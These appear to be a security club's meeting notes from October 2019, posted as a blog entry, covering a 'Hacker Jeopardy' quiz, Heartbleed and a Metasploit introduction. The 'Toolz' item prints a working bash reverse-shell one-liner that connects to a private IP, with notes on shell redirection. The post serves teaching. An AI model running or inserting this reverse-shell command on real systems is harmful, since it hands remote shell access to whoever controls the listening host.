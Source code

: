 ```yaml
---
layout: post
title:  "Meeting Notes for Oct. 10, 2019"
date:   2019-10-10
categories: notes
author: scrypy
---
```

# Meeting Notes Oct. 10, 2019:

## Hacker Jeopardy -> @scrypy
- **Newz:**
  - This popular electronic doorbell has decided to partner with police departments and provide them easy access to footage recorded on the device. (Amazon Ring)
- **Toolz:**
  - `bash -i >& /dev/tcp/10.0.99.45/80 0>&1`
  - redirection notes 
  ```
  There are two formats for  redirecting  standard  output  and  standard
  error:
         &>word
  and
         >&word

  Of the two forms, the first is preferred.  This is semantically equiva-
  lent to
         >word 2>&1

  stdin=0 - stdout=1 - stderr=2
  ```
- **Knawledge:**
  - This is the basic idea behind the famous Heartbleed Vulnerability https://xkcd.com/1354/

## Metasploit Intro -> @scrypy
- Basics of working through an exploit using Metasploit.

<br>
@scrypy
